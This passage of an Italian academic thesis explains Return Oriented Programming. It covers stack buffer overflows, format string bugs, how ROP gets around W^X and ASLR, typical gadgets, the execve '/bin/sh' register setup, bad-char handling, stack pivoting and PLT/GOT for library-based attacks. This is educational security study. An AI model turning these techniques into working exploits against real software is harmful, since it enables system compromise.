posizione nella quale è stato memorizzato l'indirizzo di ritorno nello stack, per poterlo sovrascrivere con un altro indirizzo effettuando un dirottamento del normale flusso d'esecuzione previsto dal programmatore \cite*{ROP-bufferoverflow}.

\begin{figure}[htpb]
    \centerline{
\includegraphics[scale=.6]{images/stack-based buffer overflow.png}}
    \caption{Esempio di sovrascrittura dopo 48 Byte dell'indirizzo di ritorno nello stack frame tramite input inserito in Buffer (56 'A' inserite in Buffer).}
    \label{fig:Stack-overflow}
\end{figure}

Esistono diverse funzioni ``insicure'' nel linguaggio di programmazione \textbf{C} che se non gestite in maniera accurata possono portare a vulnerabilità di questo tipo, alcune di queste sono ad esempio la \textit{gets}, la \textit{strcpy} \cite*{unsafe-func} e se non utilizzata in maniera opportuna 
anche la \textbf{read}. La prima delle tre non limita in alcun modo l'input che sarà inserito dall'utente, conferendo la possibilità di introdurre qualsiasi dato nello stack. La seconda funzione invece copia il contenuto della seconda stringa nella prima stringa specificata 
(ogni sequenza di caratteri in C è un buffer), ed anche in questo caso la copia sarà effettuata senza nessun controllo sulle dimensioni dei due buffer. L'ultimo caso prevede che sia l'utente a specificare il numero massimo di dati inseribili, tuttavia se questo dato fosse impostato in 
maniera scorretta un eventuale attaccante avrebbe la possibilità di oltrepassare l'area riservata al buffer sovrascrivendo il contenuto dello stack.\\
Allo stato attuale alcune delle funzioni considerate ``insicure'' sono state sostituite con altre versioni delle stesse più affidabili, come \textit{fgets} e \textit{snprintf} rispettivamente per \textit{gets} e \textit{strcpy} \cite*{unsafe-func}.\\
Una volta chiarita la principale vulnerabilità, la quale verrà sfruttata durante la fase dei test, un'altra classe sempre molto importante e pericolosa verrà approfondita, ossia le \textit{format string vulnerabilities}.

\subsection{Format string}
\label{subsec:format string}
Questa classe di vulnerabilità prende il suo nome dalla tipologia di argomento che può essere passato ad una \textit{format function}, uno speciale tipo di funzione ANSI C, quale \textbf{printf}, \textbf{scanf} o un'altra della stessa categoria. Questa tipologia di funzione può prendere un numero variabile di
argomenti, tra i quali appunto le \textit{format strings}, e sono utilizzate per convertire un tipo di dato semplice nella sua rappresentazione in stinga \cite*{Formatstring}.\\ 
Una \textit{format string} è una stringa contenente testo e delle direttive di formato, quindi delle specifiche utili al compilatore per apprendere correttamente il tipo di una variabile. Esistono molteplici tipologie di queste speciali direttive, questo per fornire una rappresentazione corretta per ogni tipo di
dato fornito. Alcune di queste sono: 

\begin{table}[h]
    \centering
    \begin{tabular}{ |c|p{6cm}|  }
        \hline
        \textbf{Tipologia} & \textbf{Scopo} \\
        \hline
        ``\%d'' & stampare degli interi \\
        ``\%s'' & stampare una stringa \\
        ``\%p'' & stampare il valore di un puntatore \\
        ``\%x'' & stampare caratteri esadecimali \\
        \hline
    \end{tabular}
\end{table}

Queste direttive, infatti, sono inizialmente \textbf{interpretate} e successivamente \textbf{sostituite} con il valore appropriato. Ad esempio, in un'ipotetica chiamata alla funzione \textbf{printf}, se il primo argomento passato sarà una \textit{format string}, essa verrà rimpiazzata col valore effettivo
della variabile passata come secondo argomento (sempre che sia compatibile col tipo di variabile inserito), ed infine stampata.

\begin{figure}[htpb]
    \centerline{
\includegraphics[scale=.5]{images/format string.png}}
    \caption{Esempio di printf con direttiva di formato ``\%d'' nel primo argomento e variabile di tipo intero come secondo.}
    \label{fig:format string}
\end{figure}

Tuttavia, se come chiamata verrà effettuata la seguente: \textbf{printf}(\textit{str}), dove \textit{str} può essere una \textit{format string} contenente più direttive di formato, come la seguente: ``\%x\%x''. L'output che ne risulterà sarà il contenuto dei registri \textbf{rsi} e \textbf{rdx} in esadecimale. Aggiungendo ulteriori direttive è possibile recuperare i dati 
memorizzati nello stack, reperendo molte informazioni sensibili che non sarebbero altrimenti accessibili. La causa per cui questo accade è per via dalle \textbf{convinzioni di chiamata}\label{call-convention} definite nel set di specifiche \textbf{System V AMD64 ABI} \cite*{AMD64-ABI} (utilizzate dall'architettura x86-64). Esse prevedono che per ogni chiamata 
a funzione i primi sei argomenti siano memorizzati nei registri \textbf{rdi}, \textbf{rsi}, \textbf{rdx}, \textbf{rcx}, \textbf{r8}, \textbf{r9}, mentre gli eventuali restanti verranno caricati nello stack. Quest'ultimo punto è quello che rende possibile la lettura dei dati contenuti nello stack mediante le \textit{format strings}. La \textit{format function}
cercherà di reperire ciò che l'utente vuole stampare dallo stack, fornendogli qualsiasi dato presente in esso.\\
Essendo questa una delle vulnerabilità più pericolose e frequenti intorno agli anni 2000 \cite*{Formatstring}, col passare del tempo sono state trovate delle soluzioni a tale problema. Anche se molte di esse prevedono sempre che vi sia particolare attenzione da parte del programmatore durante la stesura del codice.
Attualmente, i moderni compilatori evidenziano errori quando l'utente sta cercando di compilare del codice contenente una \textit{format function} mal gestita \footnote[1]{Un esempio di format function mal gestita può essere quella vista in precedenza, ossia \textbf{printf}(\textit{str}).}, invitandolo a modificarla per renderla più sicura.
Esistono altrimenti delle regole applicabili al proprio codice definite nel \textbf{SEI CERT C Coding Standard}, che permettono di rendere più sicure le applicazioni sviluppate \cite*{SEI-CERT-RULE09}.

\section{Difese superabili dalla ROP}
\label{sec:Def-bypass}
Nella sezione \ref{sec:Vulnerabilita} sono state approfondite alcune delle principali vulnerabilità che possono portare ad un exploit di un programma mediante la \textbf{ROP}. Ora ci si concentrerà nell'evidenziare quali difese questa potente tecnica è in grado di eludere e quali invece risultino particolarmente efficaci contro di essa.\\
Le principali difese che la ROP è in grado di superare abilmente sono: \textbf{W$\oplus$X} (\textbf{Write  xor Execute}) e \textbf{ASLR} (\textbf{Address Space Layout Randomization}).

\subsection{W$\oplus$X (W-xor-X)}
\label{sec:Def-W-xor-X}
\textbf{W$\oplus$X} o meglio conosciuta come \textbf{W-xor-X}, è un meccanismo di difesa introdotta per la prima volta nel sistema \textbf{OpenBSD}\footnote[2]{\textbf{OpenBSD} è un sistema \textit{unix-like}, open-source e basato principalmente sulla sicurezza.} nel 2003 \cite*{OpenBSD-3.3}. Col passare degli anni venne introdotto anche negli altri sistemi 
assumendo diversi nomi come \textbf{DEP} (\textbf{Data Execution Prevention})\cite*{DEP-windows}, e direttamente all'interno dei processori col nome di \textbf{NX bit} (\textbf{No-execute})\cite*{NX}.\\
Il suo compito è quello di rendere non eseguibili specifiche aree di memoria, cosicché eventuali tentativi di eseguire codice macchina in quelle aree causeranno un'eccezione. Questa tecnica venne introdotta anche per evitare gli attacchi shellcode \cite*{shellcode}\cite*{Stack-bufferoverflow}, i quali sfruttavano vulnerabilità per ottenere il controllo del flusso
del programma ed iniettavano il codice macchina per invocare una \textit{shell} direttamente dallo stack. Rendendo queste aree di memoria non eseguibile è possibile evitare tale tipologia di attacchi. Nonostante non sia abbastanza efficace da bloccare la \textbf{ROP}, che a differenza delle shellcode non inietterà nuovo codice da eseguire \cite*{ASLR-WX}, ma sfrutterà i \textbf{gadgets} già presenti nei file.\\

\subsection{ASLR (Address Space Layout Randomization)}
\label{sec:Def-ASLR}
\textbf{ASLR} (\textbf{Address Space Layout Randomization}) \cite*{ASLR}\Cite*{ASLR-WX} è una tecnica di sicurezza, che venne per la prima volta implementata nei sistemi operativi nel 2001. Come la \textbf{W$\oplus$X}, ha lo scopo di prevenire l'exploit di eventuali vulnerabilità che possono consentire ad un attaccante di corrompere aree di memoria.\\
Questa meccanica di difesa consiste nel rendere (parzialmente) casuale l'indirizzo su cui risiedono le funzioni di libreria e delle più importanti aree di memoria associate ad un programma in esecuzione. In questo modo, un attaccante non sarà in grado di reperire gli indirizzi necessari per eseguire codice malevolo prima che il programma sia effettivamente eseguito.\\
Come si vedrà nelle sezioni successive di questo elaborato, esistono più metodi utilizzando la \textbf{ROP} per bypassare tale tipologia di difesa.

\chapter{Tecniche di Attacco usando la ROP e possibili mitigation}
\label{chap:Attacks}
Nei precedenti capitoli sono stati approfonditi tutti i concetti fondamentali su cui si basa la \textbf{ROP} ed il suo funzionamento. In questa parte del lavoro verranno invece spiegati differenti approcci con cui può 
essere applicata questa tecnica, in base al codice che verrà attaccato, oppure ai meccanismi di difesa attivi, o le differenti restrizioni imposte dallo sviluppatore originario del programma. Quindi, quello che 
verrà evidenziato in questi attacchi sarà la versatilità che questa tecnica offre.\\
Questa sezione avrà lo scopo di introdurre le idee che stanno alla base degli attacchi nei test. Ognuno di essi sarà poi illustrato dettagliatamente nel prossimo capitolo.\\
Inizialmente verrà riportato un classico attacco \textbf{ROP} concatenando vari \textbf{gadgets}, per poi realizzare attacchi effettuati in condizioni più scomode, ma riuscendo comunque ad applicare la tecnica.\\
In conclusione verranno introdotte alcune delle possibili tecniche di mitigazione utilizzate per fermare exploit basati sulla \textbf{Return Oriented Programming}, o più generalmente che sfruttano le vulnerabilità \textbf{buffer-overflow}.

\section{Attacco generico usando la ROP e gestendo i bad chars}
\label{sec:Attack_1}
Com'è stato ampiamente descritto nei capitoli \ref{chap:ROP} e \ref{chap:ROP-vulnerabilities}, la \textbf{Return Oriented Programming} sfrutta differenti tipi di vulnerabilità all'interno dei codici per alterare il normale 
flusso del programma. Per fare questo esso si avvale dei \textbf{gadgets}, importanti sequenze di istruzioni terminanti con una \textbf{ret}, concatenandoli assieme andando a formare una \textbf{ROP chain}.\\
Non è però sempre così scontato trovare all'interno dei binary file i gadgets necessari per costruire una \textbf{ROP chain} efficace, soprattutto se si lavora con codici relativamente brevi e poco complessi come nel caso dei 
test effettuati successivamente.\\
Nel seguente caso si è deciso di costruire una \textbf{ROP chain} che una volta inserita correttamente all'interno dello stack, fosse in grado di evocare una \textit{shell}. Tuttavia per fare questo bisognerà avvalersi di più \textbf{gadgets},
spesso non sarà direttamente possibile effettuare una particolare azione necessaria con un singolo gadget. Invece, saranno necessari più gadget in sequenza, utilizzandone di tipologie differenti e che all'apparenza 
sembrerebbero non risolvere il problema.\\ 
In questa prima fase verranno elencati alcuni dei principali \textbf{gadgets} o istruzioni che possono tornare spesso utili per la costruzione di una \textbf{ROP chain}.

\subsection*{I principali gadgets utilizzabili}
\label{par:Useful-gadgets}
Per costruire una discreta \textbf{ROP chain} diviene necessario conoscere alcune delle principali istruzioni macchina, le quali consentono di effettuare varie operazioni all'interno dei codici. Di seguito verranno elencate e spiegate quelle generalmente
più utili per effettuare un attacco \textbf{ROP} efficace con rispettive istruzioni utilizzabili \cite*{ROP-Basics}. Verrà sempre fatto riferimento al \textbf{Instruction Set} dell'architettura \textbf{x86-64} \cite*{ISA-x86-64},
e le istruzioni illustrate useranno l'\textit{Intel Syntax}, quindi verranno scritte seguendo la struttura:\\\\
\centerline{\texttt{\large{\textbf{\textcolor{Bittersweet}{COMANDO}  \space  <DESTINAZIONE>, <SORGENTE>;}}}}\\

\begin{itemize}
    \item \textbf{Caricare un dato in un registro}:\\
        Una delle azioni più utili da effettuare in una \textbf{ROP chain} è caricare dei dati all'interno dei registri. Se presente all'interno dei binary file si può utilizzare:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{POP}  \space  <REG>; \space \textcolor{Bittersweet}{RET};}}}\\\\
        oppure, è possibile anche usarla concatenata ad una MOV per spostare il contenuto da un registro ad un altro. Questo, se non è disponibile una POP che carichi direttamente i dati nel registro desiderato\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{POP}  \space  <REG2>; \space \textcolor{Bittersweet}{MOV}  \space  <REG1>, <REG2>;}}}
    \item \textbf{Caricare in una zona di memoria un dato da un registro}:\\
        Un'altra azione che risulta particolarmente utile è caricare un dato da un registro in una zona di memoria specifica. Solitamente può essere effettuato con una MOV:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{MOV}  \space  qword ptr[<REG1>], <REG2>; \space \textcolor{Bittersweet}{RET};}}}\\\\
        Il \textbf{qword ptr} significa 4 word\footnote[1]{1 word in questo caso corrisponde a 2 byte, quindi 16 bit.}, ossia 64 bit, quindi verrà caricato per intero il contenuto del registro sorgente nell'indirizzo contenuto in quello di destinazione.\\
        Se invece si vuole caricare dal registro sorgente un singolo byte nell'indirizzo contenuto in quello di destinazione (come per esempio un unico carattere), si può invece utilizzare:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{MOV}  \space  byte ptr[<REG1>], <REG2>; \space \textcolor{Bittersweet}{RET};}}}\\
    \item \textbf{Caricare da una zona di memoria un dato in un registro}:\\
        Può essere utile a volte recuperare da una zona di memoria un dato per rielaborarlo all'interno di un registro, in tal caso basterà invertire le posizioni della MOV del punto precedente:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{MOV}  \space  <REG1>, qword ptr[<REG2>]; \space \textcolor{Bittersweet}{RET};}}}\\
    \item \textbf{Effettuare operazioni aritmetiche con i dati nei registri}:\\
        Se necessario, è possibile effettuare operazioni aritmetiche con i dati nei registri, quali sottrazioni, addizioni, exclusive or (XOR), oppure AND. Molto spesso risulta utile mettere completamente a zero il contenuto di uno specifico registro, per farlo
        si può utilizzare:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{XOR}  \space  <REG1>, <REG1>; \space \textcolor{Bittersweet}{RET};}}}\\\\
        Oppure:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{AND}  \space  <REG>, 0x0; \space \textcolor{Bittersweet}{RET};}}}\\\\
        Esistono anche metodi alternativi utilizzando per esempio una MOV oppure una SUB \cite*{ZEROED-register}, tuttavia trovare le sopraccitate è molto più comune.\\
        Invece, se si necessita di sommare un valore al contenuto di un registro è possibile usare una semplice ADD:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{ADD}  \space  <REG>, 0x1; \space \textcolor{Bittersweet}{RET};}}}\\\\
        Altrimenti se si vuole sommare il contenuto del registro sorgente nell'indirizzo contenuto in quello di destinazione si dovrà utilizzare:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{ADD}  \space  qword ptr[<REG1>], <REG2>; \space \textcolor{Bittersweet}{RET};}}}\\
    \item \textbf{Effettuare una chiamata a sistema}:\\
        Le istruzioni che eseguono una chiamata a sistema consentono di effettuare un \textit{interrupt request} al kernel, che se gestita correttamente con i gadget precedenti darà accesso ad una \textit{shell}:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{SYSCALL};}}}\\\\
        Nella precedente architettura \textbf{x86} è possibile trovare anche l'istruzione seguente per effettuare una \textbf{syscall}:\\
        \\\texttt{\large{\textbf{\textcolor{Bittersweet}{INT} \space 0x80;}}}\\\\
        Questa tipologia di istruzioni sarà molto utile soprattutto per quanto riguarda i test che verranno affrontati nel capitolo \ref{chap:Test}.\\ 
\end{itemize}

\subsection*{Esecuzione di una shell in Linux x86-64}
\label{subsec:Shell}
Dopo aver visto le principali istruzioni che possono essere utili per comporre le \textbf{ROP chain} negli attacchi, verrà approfondito quello che sarà l'obbiettivo finale dell'attacco, ossia eseguire una \textit{shell} mediante la \textbf{Return Oriented Programming}.\\
Innanzitutto, i test saranno effettuati in un sistema \textbf{Linux} sempre con architettura \textbf{x86-64}, saranno illustrati poi quali siano le convenzioni che esso utilizza per eseguire una \textit{shell}, prima di effettuare la chiamata a sistema.\\
Una chiamata a sistema effettuata con i corretti dati inseriti all'interno dei registri, consentirà di eseguire una \textit{shell}. In questa tipologia di sistema esiste tra le differenti chiamate quella a \textbf{sys\_execve} \cite*{Syscall-table}\cite*{Syscall-table-UP}, che in accordo 
alla pagina di manuale del sistema facente riferimento a tale funzione \cite*{Execve-linuxmanpage}, consente di eseguire il processo localizzato nel \textbf{pathname} memorizzato all'indirizzo di memoria passato come primo argomento della chiamata. Sarà quindi necessario impostare correttamente 
i registri del processore affinché la chiamata vada a buon fine. Seguendo quanto scritto nella \textit{System Call table} \cite*{Syscall-table} è necessario impostare i registri come segue:  
\label{shell-reg}
\begin{itemize}
    \item \textbf{rax}: 0x3b (per specificare la tipologia di chiamata, nel caso \textbf{sys\_execve});
    \item \textbf{rdi}: indirizzo in memoria della stringa ``\textbf{/bin/sh\textbackslash00}'' \space (per indicare il pathname del file da eseguire);
    \item \textbf{rsi}: 0x0 (per indicare che non verranno passati altri argomenti);
    \item \textbf{rdx}: 0x0 (per indicare che non verrà passata nessuna variabile d'ambiente\footnote[1]{Un array di stringhe che descrivono l'ambiente (environment).}).
\end{itemize}

Per comporre la \textbf{ROP chain} sarà necessario trovare i gadgets che consentano d'impostare correttamente i registri per eseguire la \textit{shell}. Inoltre, bisognerà trovare l'indirizzo di una zona di memoria in cui è consentito scrivere per poter memorizzare la stringa 
``\textbf{/bin/sh}'' da passare come argomento alla chiamata. Infine, verrà inserita come ultima istruzione della chain una \textbf{syscall}.\\
A questo punto l'attacco sarebbe completo e funzionante se non fosse che spesso all'interno dei codici esistano dei controlli per quelli che vengono comunemente definiti ``\textbf{Bad Chars}''.

\subsection*{Gestione dei Bad Chars}
\label{subsec:Badchars}
I ``\textbf{Bad Chars}'', anche chiamati ``invalid characters'', sono caratteri ricevuti e filtrati dal programma di destinazione di un attacco che fungono da delimitatori.\\
Attraverso gli algoritmi interni del programma, i \textbf{bad chars} eliminano quelli che potrebbero essere caratteri essenziali per effettuare l'attacco voluto, oppure li sostituiscono con altri valori, rendendo di fatto invano il tentativo effettuato dall'attaccante.\\
La ricerca di questi caratteri diviene conseguentemente parte cruciale dello sviluppo di un exploit, poiché, se non correttamente individuati e soprattutto evitati durante la stesura della propria \textbf{ROP chain} o payload da inviare, lo renderanno inutile. Questo perché i caratteri identificati come 
tali verrebbero mal interpretati dal sistema di destinazione, portando spesso alla terminazione del processo.\\
Quando vengono inseriti dati all'interno di un software esso ha il compito di elaborarli. Durante tale operazione, finché non raggiungeranno il punto in cui avrà effetto l'attacco, esso controlla, filtra, sostituisce oppure blocca determinati caratteri. Questo rende più complicato lo sviluppo dell'exploit. Tuttavia, esistono diversi 
metodi per identificare questi speciali caratteri e quindi evitarli nel ``payload'' finale.\\
Ad esempio, una delle possibili soluzioni per identificare questi \textbf{bad chars}, potrebbe essere analizzare il programma da quando i dati sono stati inseriti fino a quando avranno raggiunto il punto in cui avrà luogo l'exploit. Verificando se il software abbia effettuato qualche operazione su di essi.\\ 
Questo risulta essere uno dei metodi più efficaci ed allo stesso tempo uno dei più tediosi da applicare, soprattutto se il programma effettua controlli multipli e manipola più volte i dati inseriti. \cite*{Badchars}\\
Un'altra opzione, che come si vedrà è anche quella che è stata adottata durante i test, può essere quella di passare al programma una stringa contenente tutti i possibili caratteri e verificare cosa accada ad ognuno di essi durante l'esecuzione. Confrontando poi la stringa inserita con quella ottenuta una volta raggiunta la fase 
in cui avrà effetto l'attacco.\\
Una volta identificati i \textbf{bad chars} all'interno del codice, è necessario trovare un modo per evitarli. Grazie alla \textbf{Return Oriented programming}, è possibile trovare dei \textbf{gadgets} che elaborino e modifichino i dati successivamente il loro inserimento all'interno del programma eludendo i successivi controlli.
Ad esempio, se si necessita di inserire i caratteri di una specifica stringa evitando che alcuni di essi vengono considerati \textbf{bad chars} dal software, una possibilità potrebbe essere quella di inserire inizialmente una stringa con dei caratteri diversi da quelli voluti. Andando poi, mediante delle \textbf{ADD}, ad incrementare il valore 
esadecimale dei singoli caratteri, sarà possibile ottenere quelli attesi e necessari per portare a termine l'attacco.\\
Questo metodo sarà anche quello adottato durante i test, e che quindi verrà anche visto direttamente in azione.\\
Una volta gestiti correttamente i \textbf{bad chars}, se la \textbf{ROP chain} sarà stata costruita correttamente, verrà eseguita con successo una \textit{shell}.

\section{Attacco effettuando il dirottamento dello stack (stack pivoting)}
\label{sec:Attack_2}
Nella sezione precedente è stato affrontato un classico attacco \textbf{ROP} gestendo quelli che vengono comunemente definiti \textbf{bad chars} nell'ambito degli attacchi informatici.\\
Tuttavia, all'interno dei programmi accade spesso che vi siano delle limitazioni sulla lunghezza massima dell'input inseribile, oppure che nello stack non vi sia abbastanza spazio disponibile per eseguire un exploit completo.\\
Esiste una tecnica che permette di superare i problemi sopraccitati, definita \textbf{Stack Pivoting} o ``Dirottamento dello stack''. Essa prevede che l'attaccante prenda controllo del registro 
\textbf{rsp}, che, come visto nella sezione \ref{subsec:registers}, mantiene al suo interno l'indirizzo di memoria in cui risiede l'ultimo elemento dello stack frame attuale. Successivamente, tale indirizzo dovrà essere sostituito con quello di un buffer su cui in precedenza era stata scritta la \textbf{ROP chain} completa, senza alcun 
limite sulla dimensione e camuffando di fatto la posizione dello stack.\\ 
Per eseguire questa tecnica, bisognerà conoscere un indirizzo di memoria di un buffer che verrà reso successivamente il ``falso'' stack. Sarà inoltre di primaria importanza trovare dei gadgets che consentano di sostituire il valore del registro \textbf{rsp}, senza utilizzare troppo spazio dello
stack ``reale'' viste le condizioni imposte \cite*{Stack-pivoting}. Alcuni di essi verranno elencati di seguito.\\
La struttura delle istruzioni farà sempre riferimento a quella vista nella sezione \ref{par:Useful-gadgets}.
\begin{itemize}
    \item \texttt{\large{\textbf{\textcolor{Bittersweet}{POP}  \space  RSP; \space \textcolor{Bittersweet}{RET};}}}\\\\
    Questo gadget rappresenta la soluzione più semplice ed efficace, allo stesso tempo però è anche una delle meno comuni da trovare nei file. Se presente è sempre conveniente utilizzarla.
    \item \texttt{\large{\textbf{\textcolor{Bittersweet}{POP}  \space  <REG>; \space \textcolor{Bittersweet}{XCHG}  \space  <REG>, RSP; \space \textcolor{Bittersweet}{RET};}}}\\\\
    Se presente un'istruzione POP <REG> o un gadget che la contiene, è possibile concatenarla con un XCHG che coinvolga il registro della precedente POP e \textbf{rsp} per cambiarne il contenuto, occupando solamente 16 byte dopo l'indirizzo di ritorno.
    \item \texttt{\large{\textbf{\textcolor{Bittersweet}{LEAVE}; \space \textcolor{Bittersweet}{RET};}}}\\\\
    Questa rappresenta invece una delle possibilità più interessanti per dirottare lo stack e richiede solamente 8 byte dopo l'indirizzo di ritorno, quindi pochissimo spazio. Questo gadget è trovabile al termine di qualsiasi funzione (escluso \textbf{main}), ed è ciò che lo rende un'ottima alternativa a quelli illustrati in precedenza.
    Per comprenderlo a fondo è necessario capire ciò che accade durante una LEAVE, infatti anche se all'apparenza potrebbe sembrare un'istruzione poco funzionale per l'obbiettivo finale, in realtà essa è una MOV RSP, RBP seguita da una POP RBP. Questo significa che, se si ha la possibilità di sovrascrivere quello che sarà l'indirizzo
    caricato poi nel registro \textbf{rbp} durante l'esecuzione della LEAVE, inserendo successivamente tale gadget sopracitato nella \textbf{ROP chain}, il contenuto di \textbf{rsp} sarà quello voluto dall'attaccante, una volta effettuata la chiamata.
\end{itemize}
Recuperato il gadget necessario per sostituire il contenuto di \textbf{rsp}, e dopo aver correttamente inserito la \textbf{ROP chain} completa per eseguire una shell (come quella vista nella sezione \ref{subsec:Shell}) all'interno del buffer sotto il controllo dell'attaccante, sarà nuovamente eseguita con successo una \textit{shell}.

\section{Attacchi sfruttando le librerie collegate}
\label{sec:Attack_3}
Nei due attacchi visti precedentemente, l'obbiettivo era quello di sfruttare i gadgets presenti \textbf{solamente} all'interno del binary file del codice sotto attacco, per costruire un exploit usando la \textbf{Return Oriented Programming} che consentisse all'attaccante di eseguire correttamente una \textit{shell}.
Tuttavia, accade spesso che all'interno del solo binary file del codice vulnerabile, non siano presenti abbastanza gadgets per effettuare quanto richiesto dall'utente malintenzionato. Vengono allora presi in causa anche i file delle librerie collegate al programma. \cite*{Ret2libc}\\
Verranno affrontati due approcci differenti a tale situazione: 
\begin{itemize}
    \item \textbf{Prima situazione}: l'attaccante è a conoscenza della libreria collegata e dispone del suo file.
    \item \textbf{Seconda situazione}: l'attaccante non conosce la versione di libreria standard collegata al codice.  
\end{itemize}
Prima di spiegare in dettaglio le due situazioni, diviene essenziale illustrare i tre elementi fondamentali atti alla comprensione dei suddetti attacchi, ossia: la tecnica di difesa \textbf{ASLR} (\textbf{Address Space Layout Randomization}), che era stata descritta nella sezione \ref{sec:Def-bypass}, la \textbf{Procedure Linkage Table} 
(\textbf{PLT}) e la \textbf{Global Offset Table} (\textbf{GOT}).\\ L'\textbf{ASLR} sarà il principale ostacolo in questa tipologia di attacchi \cite*{ASLR-BYPASS}, essa rende complesso l'utilizzo delle procedure all'interno delle librerie condivise negli attacchi \textbf{ROP}, rendendo casuali gli indirizzi su cui esse risiedono in memoria, ogni qualvolta il programma a cui sono collegate sia eseguito.

\begin{figure}[htpb]
    \centerline{
\includegraphics[scale=.8]{images/ASLR-ldd.png}}
    \caption{Esempio della randomizzazione degli indirizzi di partenza della \textbf{libc} dopo la sua esecuzione.}
    \label{fig:ASLR}
\end{figure}

Le due tabelle sopraccitate, invece, saranno il principale motivo per cui sarà possibile bypassare la meccanica di difesa appena riportata, utilizzando la \textbf{Return Oriented Programming}.\\ 
Sarà necessario andare ad approfondire quale sia il loro ruolo all'interno del processo di esecuzione di un programma, per comprendere come questo sia possibile.

\subsection*{Procedure Linkage Table (PLT) e Global Offset Table (GOT)}
\label{subsec:PLT-GOT}
In questa sezione verranno spiegati i concetti fondamentali della \textbf{Procedure Linkage Table} (\textbf{PLT}) e \textbf{Global Offset Table} (\textbf{GOT}), due importanti componenti di un qualsiasi \textbf{Executable and Linkable Format} (\textbf{ELF})\footnote[1]{l'\textbf{ELF} è un comune standard di formato per file quali \textit{eseguibili}, \textit{codice oggetto}, \textit{librerie condivise}, e \textit{core dumps}, usato anche nei sistemi Linux.} 
file negli eseguibili in Linux \cite*{ELF}\cite*{ELF2}. In particolare, queste due porzioni sono essenziali per capire come avviene il collegamento alle librerie e l'esecuzione di un programma in questo sistema, e successivamente, come potranno essere utili per eseguire gli attacchi.\\
Quando viene sviluppato un programma in linguaggio C, nella maggior parte dei casi si utilizzano delle librerie, ossia insiemi più o meno grandi di funzionalità già disponibili e testate da altri utenti. Tuttavia, per poter richiamare queste funzioni, le librerie dovranno essere prima collegate al codice 
che ne richiederà l'utilizzo. Esistono due metodi differenti con cui verrà effettuato il collegamento delle librerie alla propria applicazione: lo \textbf{Static Linking} e il \textbf{Dynamic Linking}. Quale dei due sarà utilizzato dipenderà dalla tipologia di libreria che si usufruirà.\cite*{LIBRARY}\\
Con il primo sistema il programma viene collegato ad una \textbf{libreria statica} a \underline{compile time} (tempo di compilazione), ed il codice contenuto in essa diviene parte integrante di quello dell'applicazione stessa. Mentre con il secondo, una volta inserito il nome della \textbf{libreria dinamica} (o anche \textit{shared library} in linux) nel binary file dell'applicazione, il codice \underline{non sarà copiato} in quello del proprio software come nel primo 
caso, ma sarà caricato in memoria e collegato ad esso dal sistema, una volta eseguito il programma \cite*{PLT-GOT}. Tale metodologia, essendo le funzionalità richieste dall'applicativo collocate in zone di memoria ad esso sconosciute ad ogni suo nuovo avvio, necessiterà di un modo rapido per far sì che questi indirizzi possano essere comunque sempre recuperati e forniti ad esso.\\
A tale scopo, sono state create le due sezioni sopraccitate, \textbf{PLT} e \textbf{GOT}.\\
La \textbf{Procedure Linkage Table} è una tabella di tipo \textit{read-only} ed è responsabile di richiamare il \textbf{dynamic linker} durante e dopo l'esecuzione del programma, per risolvere gli indirizzi delle funzioni da esso richieste e di cui non si conosce l'indirizzo di posizionamento in memoria \cite*{PLT-GOT-OVERWRITE}. Essa può essere trovare col nome ``\textbf{.plt}'' all'interno del file ELF dell'applicazione.\\
Invece i sistemi operativi moderni hanno ``due'' \textbf{Global Offset Table} per ogni processo, una chiamata ``\textbf{.got}'' ed un'altra ``\textbf{.got.plt}''. Per quanto riguarda questo lavoro, ci si concentrerà solamente sulla seconda, che assieme alla ``\textbf{.plt}'' si occuperanno di effettuare la risoluzione degli indirizzi delle funzioni esterne mediante una tecnica chiamata ``\textbf{Lazy Binding}''.\\
Per comprendere al meglio il ruolo delle due sezioni è più conveniente introdurre prima questa meccanica. Essa prevede che gli indirizzi assoluti delle funzioni esterne non siano risolti, finché esplicitamente chiamati per la prima volta nel codice del software. Essa venne introdotta per limitare i tempi di avviamento dei programmi e lo spazio utilizzato in memoria.\cite*{PLT-GOT-WORKS}\\
Senza addentrarsi troppo nei dettagli di questa tecnica, quello che principalmente accade durante tale procedura è che \underline{alla prima chiamata} di una funzione esterna da parte dell'applicazione, la sezione ``\textbf{.got.plt}'' della corrispettiva ``\textbf{.plt}'' sarà aggiornata con l'indirizzo effettivo in memoria di tale procedura. Questo farà sì che, ad ogni successiva chiamata ad essa, non sarà più necessario ricercare l'indirizzo associato in memoria, ma basterà recuperarlo dalla ``\textbf{.got.plt}'' della 
corrispettiva ``\textbf{.plt}''.\\
Riassumendo, una volta eseguita la prima chiamata ad una specifica funzione esterna, il puntatore contenuto nella tabella ``\textbf{.got.plt}'' facente riferimento ad essa punterà direttamente al suo indirizzo in memoria.\\
